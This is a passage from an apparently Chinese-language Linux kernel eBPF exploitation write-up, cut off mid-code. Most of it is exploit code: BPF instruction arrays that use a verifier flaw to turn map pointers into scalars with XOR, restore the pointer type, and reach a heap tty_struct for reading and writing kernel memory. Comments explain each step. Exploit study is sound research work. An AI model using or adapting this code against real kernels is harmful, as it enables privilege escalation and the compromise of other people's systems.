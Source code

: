 以下这两句将 r2 的值放到了 map 中，我们通过 `bpf_lookup_elem(expmapfd,&key,&val)` 可以查询到此时 r2 的值。（方便 debug）

 

而实际情况中，在触发了两次漏洞后，没法对同一个再来 XOR 一次了，也就是说当我们将一个指针降级为标量后，无法再恢复成指针类型了。

 

于是可以采用：

```
/*  在保证r2数值不变的情况下，通过REG XOR，以BPF_REG_0 为中转，将r1设置为r2的值并且设置r1的类型为指针类型 */
BPF_ALU64_REG(BPF_XOR, BPF_REG_0, BPF_REG_2),
BPF_ALU64_REG(BPF_XOR, BPF_REG_1, BPF_REG_0),

```

恢复 r1 的指针类型。

```
BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_1, 0),
BPF_STX_MEM(BPF_DW, BPF_REG_3,  BPF_REG_2, 0),

```

然后将 r1 指向地址的值放入 r2，最后将 r2 中保存的全局变量的值放入 key=0 即可。

 

收尾：

```
//end
BPF_MOV64_IMM(BPF_REG_0, 0),               // 在非root的情况下必须加这一条，否则会直接挂掉(不知道为啥)
BPF_EXIT_INSN(),

```

整个这一段如下：

```
struct bpf_insn insns[]={
    /* 此时我们已经创建好了 expmap ，我们尝试调用 BPF_FUNC_map_lookup_elem 来构造type为 PTR_TO_MAP_VALUE 的寄存器 */
    // r1 为我们创建好的map_fd，会被转换为对应的map地址
    BPF_LD_MAP_FD(BPF_REG_1,expmapfd), 
    BPF_MOV64_IMM(BPF_REG_0, 0),
    // r2 我们需要构造成对应的Key的地址
 
    BPF_ALU64_IMM(BPF_MOV,BPF_REG_6,0),         // r6 = 0
    BPF_STX_MEM(BPF_DW,BPF_REG_10,BPF_REG_6,-8),// *(r10 - 8) = r6  ; r10作为 framepointer 这里相当于给 fp - 8 上放了个 0
    BPF_MOV64_REG(BPF_REG_7,BPF_REG_10),        // r7 = r10         ; r10是 read-only 的 ， 我们将r10的值（指向对应的栈帧的地址）赋值给 r7
    BPF_ALU64_IMM(BPF_ADD,BPF_REG_7,-8),        // r7 = r7 - 8      ; 通过写 r7 寄存器 ， 定位到我们刚刚放的那个 0 的地址
    BPF_MOV64_REG(BPF_REG_2,BPF_REG_7),         // r2 = r7          ; 将最终构造好的值赋给 r2 ，此时 r2 指向 STACK 上的地址 ， *r2 为 0  
 
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),    // 调用 BPF_FUNC_map_lookup_elem ， 返回值 r0 为lookup到的地址
 
    BPF_JMP_IMM(BPF_JNE,0,0,1),                 // 如果返回为0 ，说明BPF_FUNC_map_lookup_elem failed ， 直接 exit 掉   
    BPF_EXIT_INSN(),
 
    BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
        BPF_MOV64_REG(BPF_REG_2, BPF_REG_0),
        BPF_MOV64_REG(BPF_REG_3, BPF_REG_0),       
 
    /* 接下来将 r1,r2 转换成标量，然后才能通过加上偏移构造出堆上tty_struct 的地址，进而进行读写；而如果以指针的形式直接加会越界会直接被ban掉 */
       BPF_ALU64_IMM(BPF_XOR, BPF_REG_2, 0),
        BPF_ALU64_IMM(BPF_XOR, BPF_REG_1, 0),
```